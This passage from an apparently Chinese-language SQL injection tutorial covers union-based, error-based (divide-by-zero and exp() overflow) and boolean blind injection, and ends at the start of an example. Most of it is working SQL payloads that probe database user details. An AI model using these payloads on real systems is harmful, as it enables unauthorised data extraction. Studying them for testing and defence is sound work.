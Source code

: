 ## 0x05 联合查询注入

Union 注入与常规的没什么区别

```sql
 order by num
 union select 1,2,3...			-- 注意列数和类型要相同
```

## 0x06 报错注入

常规的报错函数都不太行，无法直接获取结果。主要利用的是 除0错误、溢出错误，结合布尔注入进行。

### 6.1 除0错误

```sql
select 1 from dual where 1=1/0
```

结合布尔注入进行探测

```sql
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=1/if(len(user)=6,1,0) ORDER BY id DESC;
```

### 6.2 溢出错误

```sql
select exp(710)
select exp(if(1=1,710,1))			-- 数据溢出
select exp(if(len(user)=6,710,1))

SELECT *  FROM t1 where rownum&lt;5 AND 1=exp(if(len(user)=6,710,0)) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 ORDER BY id,exp(if(len(user)=6,711,0)) DESC;
SELECT *  FROM t1 where rownum&lt;5 ORDER BY id DESC, exp(if(len(user)=6,710,0));
```

## 0x07 布尔盲注

布尔盲注语法

```sql
if(expr，参数1，参数2) -- expr成立时，返回参数1的值;不成立时，返回参数2的值
CASE WHEN exp THEN state1 ELSE state2 END		-- 同IF
DECODE(expr, search1, result1 [, search2, result2,...][, default_result])  -- 类似 switch case, 如果 expr=search1，则返回 result1，否则返回default_result
IFNULL(expr1,expr2)					-- 如果 expr1 不为 NULL，则返回 expr1，否则返回 expr2
NULLIF(expr1,expr2)					-- 若expr1与expr2不同，则返回expr1，否则返回NULL

if(1=ascii(substr(&#39;123456&#39;,2,1)),2, 1)		-- 综合使用，盲注必备
CASE WHEN len(user)=6 THEN 1 ELSE 0 END
DECODE(len(user),6,1,0)							-- 判断len(user)=6是否成立，成立返回1，否则返回0
```

案例：
